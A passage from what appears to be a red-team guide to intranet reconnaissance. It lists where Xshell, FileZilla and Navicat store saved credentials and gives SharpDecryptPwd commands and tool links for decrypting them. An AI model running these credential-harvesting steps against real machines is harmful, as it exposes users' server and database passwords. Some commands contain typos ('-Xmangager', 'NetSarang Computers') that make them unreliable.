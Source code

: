 ![Untitled](%E5%86%85%E7%BD%91%E4%BF%A1%E6%81%AF%E6%90%9C%E9%9B%86%20e8733b02d1614977972a074a690afd8e/Untitled%2010.png)

![Untitled](%E5%86%85%E7%BD%91%E4%BF%A1%E6%81%AF%E6%90%9C%E9%9B%86%20e8733b02d1614977972a074a690afd8e/Untitled%2011.png)

### Get the credentials saved by Xshell

`Xshell` will save the server connection information in the `.xsh` file in the `Session` directory. If the user checks "Remember username/password" when connecting, the file will save the username and encrypted password for the remote server connection.

```powershell
# Xshell 5
%USERPROFILE%\Documents\NetSarang\XShell\Sessions
# Xshell 6
%USERPROFILE%\Documents\NetSarang Computer\6\XShell\Sessions
# Xshell 7
%USERPROFILE%\Documents\NetSarang Computer\7\XShell\Sessions
```

Versions before Xshell 7 can be decrypted directly through the `SharpDecryptPwd` tool. In addition, the tool can also decrypt `Navicate`, `TeamViewer`, `FileZilla`, `WinSCP`, and `Xmanager` series products. Tool download address: [https://github.com/RowTeam/SharpDecryptPwd](https://github.com/RowTeam/SharpDecryptPwd).

```powershell
# Get the account and password of Xshell 5
SharpDecryptPwd.exe -Xmanager -p "%USERPROFILE%\Documents\NetSarang\Xshell\Sessions"
# Get the account and password of Xshell 6
SharpDecryptPwd.exe -Xmangager -p "%USERPROFILE%\Documents\NetSarang Computers\6\Xshell\Sessions"
```

For versions after Xshell 7, the username and password are no longer stored in the `Session` directory, and you can only use the asterisk password viewer to view the password directly. Tool download address: [https://www.xitongzhijia.net/soft/27250.html](https://www.xitongzhijia.net/soft/27250.html).

### Get the credentials saved by FileZilla

`FileZilla` is used for `FTP` connection. It will save the FTP login credentials in the `%USERPROFILE%\AppData\Roaming\FileZilla\recentservers.xml` file. You can use the `SharpDecryptPwd` tool mentioned above to export the `FileZilla` saved `FTP` login credentials in one click.

```powershell
SharpDecryptPwd.exe -FileZilla
```

### Get the credentials saved by NaviCat

`NaviCat` is a powerful database management and design tool. `NaviCat` will save the relevant information filled in when connecting to the database to the registry. The specific path is as follows. Note that the password is saved after being encrypted by a reversible algorithm, and the `NaviCat≤11` version and the `NaviCat≥12` version respectively use different encryption algorithms.

```powershell
# Mysql
HKEY_CURRENT_USER\Software\PremiumSoft\Navicat\Server\<Connetion Name>
# MariaDB
HKEY_CURRENT_USER\Software\PremiumSoft\NavicatMARIADB\Servers\<Connetion Name>
#MongoDB
HKEY_CURRENT_USER\Software\PremiumSoft\NavicatMONGODB\Servers\<Connetion Name>
# SQL SERVER
HKEY_CURRENT_USER\Software\PremiumSoft\NavicatMSSQL\Servers\<Connetion Name>
# Oracle
HKEY_CURRENT_USER\Software\PremiumSoft\NavicatOra\Servers\<Connetion Name>
# PostgreSQL
HKEY_CURRENT_USER\Software\PremiumSoft\NavicatPG\Servers\<Connetion Name>
# SQLite
```